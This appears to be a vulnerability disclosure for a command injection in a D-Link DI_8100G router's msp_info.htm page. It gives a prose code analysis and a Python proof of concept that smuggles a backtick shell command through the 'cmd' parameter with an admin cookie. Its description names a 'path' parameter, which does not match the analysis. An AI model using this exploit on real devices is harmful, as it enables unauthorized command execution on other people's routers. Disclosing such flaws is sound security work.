



# DI_8100G-17.12.20A1 Command_Injection
# D-link:DI_8100G-17.12.20A1 Command Injection

# Firmware information
Firmware download address:http://www.dlink.com.cn/techsupport/download.ashx?file=5492

# Description:
A vulnerability was discovered in DI_8100G-17.12.20A1, which has been classified as critical. This issue affects the frontend functionality of the msp_info.htm file, which calls the sub_457A6C function within the web service jhttpd. An attacker manipulating the path parameter can potentially lead to command injection.

# Analyse:



The param_1 here is the value passed in. First, check if this passed-in value contains 'flag'. If it does, continue to check if the flag variable equals 'cmd'. If it does, call the httpd_get_parm function to get the address of the cmd parameter content. After this function executes, if the returned value is not empty or if the address it points to is not '\0' (indicating the end of the string), concatenate pcVar5 to pcVar1. Then pcVar1 is used as the parameter for the system function.


# poc





```
import requests

burp0_url = "http://192.168.0.1:80/msp_info.htm?flag=cmd&cmd=`echo%20aaa>longlong.txt`"
burp0_cookies = {"gw_userid": "admin,gw_passwd=3AD6F40535A864417D03912DCA74EDBD"}
burp0_headers = {"Accept": "application/json, text/javascript, */*", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36", "Referer": "http://192.168.0.1/manage_2.html", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "zh,en-US;q=0.9,en;q=0.8", "Connection": "close"}
requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
```


